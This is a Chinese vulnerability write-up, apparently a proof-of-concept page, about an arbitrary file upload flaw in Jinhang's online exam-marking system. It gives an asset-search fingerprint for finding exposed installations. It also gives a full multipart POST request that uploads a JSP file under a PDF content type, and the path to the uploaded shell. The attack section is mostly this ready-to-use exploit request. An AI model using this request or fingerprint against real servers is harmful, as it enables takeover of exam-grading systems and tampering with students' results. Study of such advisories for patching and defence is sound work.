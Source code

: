 # 一、漏洞简介
衡水金航计算机科技有限公司是一家长期致力于图像标记识别采集技术及信息管理系统的软件企业。金航网上阅卷系统：可以广泛地应用于高考、中考、教育局组织的学校联考、各类学校自组织考试、各种行业考试、职称考试等。衡水金航计算机科技有限公司金航网上阅卷系统 fileUpload 任意文件上传漏洞，攻击者可通过该漏洞获取服务器权限。

# 二、影响版本
+ 金航网上阅卷系统

# 三、资产测绘
+ hunter`web.body="js/insteadSelect/jquery.insteadSelect.css"`
+ 特征

![](images/1712746095587-c104fe7b-3112-450f-8cf2-0f1db1e10726.png)

# 四、漏洞复现
```java
POST /fileUpload HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.63 Safari/537.36
Content-Type: multipart/form-data; boundary=00content0boundary00
Host: 
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Content-Length: 351
Connection: close

--00content0boundary00
Content-Disposition: form-data; name="upload"; filename="poc.jsp"
Content-Type: application/pdf

<%out.println("1234");%>
--00content0boundary00
Content-Disposition: form-data; name="uploadContentType"

pdf
--00content0boundary00
Content-Disposition: form-data; name="uploadFileName"

1.jsp
--00content0boundary00--
```

![](images/1712746131448-c5fa0d93-d21e-4aff-ad12-7d7609fce4b8.png)

上传文件位置

```java
/upload/poc.jsp
```

![](images/1712746158624-2704a2eb-228c-44a3-a06e-5ddfee342a5e.png)

